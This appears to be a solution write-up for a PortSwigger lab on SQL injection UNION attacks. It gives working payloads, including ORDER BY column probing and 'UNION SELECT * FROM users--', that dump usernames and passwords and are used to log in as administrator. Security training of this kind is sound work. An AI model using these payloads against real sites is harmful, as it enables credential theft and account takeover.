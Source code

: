 # [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
3. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1
    ```

4. Login to admin account => Lab Solved
